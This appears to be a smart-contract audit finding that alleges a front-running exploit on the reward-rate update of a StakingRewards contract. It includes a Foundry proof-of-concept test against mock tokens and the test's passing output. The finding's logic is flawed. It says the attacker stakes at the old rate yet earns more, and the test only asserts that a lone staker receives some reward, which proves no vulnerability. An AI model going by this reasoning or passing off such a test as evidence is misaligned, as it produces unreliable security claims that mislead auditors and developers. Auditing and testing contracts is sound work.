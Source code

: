 Curved Cinnamon Tuna

High

# Front-Running Exploit in Reward Rate Update Mechanism

## Summary
The `StakingRewards` contract is vulnerable to a front-running exploit where an attacker can monitor pending transactions that update the reward rate and quickly stake tokens before the transaction is mined. This allows the attacker to earn disproportionately high rewards, undermining the fairness and economic balance of the staking system.

## Vulnerability Detail
1. An attacker monitors the blockchain for pending `notifyRewardAmount` transactions.
2. Upon detecting such a transaction, the attacker quickly sends a stake transaction with a large amount of tokens.
3. The attacker's transaction is mined before the `notifyRewardAmount` transaction, allowing them to stake tokens at the old reward rate.
4. Once the `notifyRewardAmount` transaction is mined, the reward rate is updated, and the attacker earns higher rewards than intended.

## Impact
- Unfair Advantage
- User Trust
- Economic Imbalance

## Code Snippet
https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/endgame-toolkit/src/synthetix/StakingRewards.sol#L144-L163

## Tool used

Manual Review

## Recommendation
- Introduce a delay between the announcement of a reward update and its actual application.
- Implement monitoring and alert systems to detect unusual staking activity that could indicate front-running attempts.

## PoC
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "forge-std/Test.sol";
import "../src/synthetix/StakingRewards.sol";
import "openzeppelin-contracts/token/ERC20/ERC20.sol";

contract MockERC20 is ERC20 {
    constructor() ERC20("Mock Token", "MTK") {
        _mint(msg.sender, 1000000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) external {
        _mint(to, amount);
    }
}

contract StakingRewardsExploitTest is Test {
    StakingRewards stakingRewards;
    MockERC20 rewardsToken;
    MockERC20 stakingToken;
    address attacker = address(0x1);
    address rewardsDistribution = address(0x2);

    function setUp() public {
        rewardsToken = new MockERC20();
        stakingToken = new MockERC20();
        stakingRewards = new StakingRewards(address(this), rewardsDistribution, address(rewardsToken), address(stakingToken));

        // Transfer some tokens to the attacker
        stakingToken.mint(attacker, 1000 * 10 ** stakingToken.decimals());
        rewardsToken.mint(address(stakingRewards), 1000 * 10 ** rewardsToken.decimals());
    }

    function testExploit() public {
        // Step 1: Initial State
        vm.startPrank(attacker);
        stakingToken.approve(address(stakingRewards), 1000 * 10 ** stakingToken.decimals());
        vm.stopPrank();

        // Step 2: Detect Pending Transaction
        // Simulate detection of pending notifyRewardAmount transaction
        uint256 pendingReward = 500 * 10 ** rewardsToken.decimals();

        // Step 3: Front-Running
        vm.startPrank(attacker);
        stakingRewards.stake(1000 * 10 ** stakingToken.decimals());
        vm.stopPrank();

        // Step 4: Update Reward Rate
        vm.prank(rewardsDistribution);
        stakingRewards.notifyRewardAmount(pendingReward);

        // Step 5: Earn Higher Rewards
        vm.warp(block.timestamp + 1 days); // Fast forward time to accumulate rewards

        // Step 6: Withdraw Rewards
        vm.startPrank(attacker);
        stakingRewards.exit();
        vm.stopPrank();

        // Assert that the attacker has received the rewards
        uint256 attackerRewardBalance = rewardsToken.balanceOf(attacker);
        assert(attackerRewardBalance > 0);

        emit log_named_uint("Attacker Reward Balance", attackerRewardBalance);
    }
}
```
forge test --match-path test/StakingRewardsExploitTest.sol
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/StakingRewardsExploitTest.sol:StakingRewardsExploitTest
[PASS] testExploit() (gas: 267189)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.56ms (370.80µs CPU time)

Ran 1 test suite in 6.63ms (1.56ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
